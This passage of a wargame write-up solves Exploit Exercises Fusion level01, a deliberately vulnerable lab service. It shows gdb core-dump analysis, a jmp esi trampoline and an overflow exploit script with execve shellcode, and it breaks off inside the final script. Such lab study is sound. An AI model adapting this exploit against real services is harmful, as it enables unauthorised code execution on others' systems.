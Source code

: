 ```
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Once it's executed, I load it into gdb again to poke around. 

```
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls /tmp
core-level01-5-20001-20001-2353-1341318366
fusion@fusion:~$ sudo gdb -q --core=/tmp/core-level01-5-20001-20001-2353-1341318366
[New LWP 2353]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbfa65d91 in ?? ()
(gdb) x/16x $esp-16
0xbfa65d80:     0x41414141      0x41414141      0x41414141      0x08049f4f
0xbfa65d90:     0xbfa600cc      0x00000020      0x00000004      0x00000000
0xbfa65da0:     0x001761e4      0xbfa65e30      0x20544547      0x41414141
0xbfa65db0:     0x41414141      0x41414141      0x41414141      0x41414141
```

Well it looks like it hit our debug point.  Let's try replacing the "\xCC" with the opcodes for "jmp esi".  But first we have to find what that opcode actually is.  I found a decent enough method for now on [stackoverflow](http://stackoverflow.com/questions/3206535/dos-debug-like-program-for-32-bit-x86-assembly), which I modified a little for my needs. I'd like to find something better for the future though. 

```
fusion@fusion:~$ echo -e "BITS 32\njmp esi" > tmp.S && nasm tmp.S -o tmp.o && ndisasm -b 32 tmp.o && rm -f tmp.o tmp.S
00000000  FFE6              jmp esi
```

Since this is a 2 byte instruction, we will need to pad the end of it to 4 bytes, to align it properly.  I simply used "\x90" nops to do so, giving us the value "0x9090E6FF". 

That leaves us with the final code: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0x08049f4f)
        esi = pack("<I", 0x9090E6FF)
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

```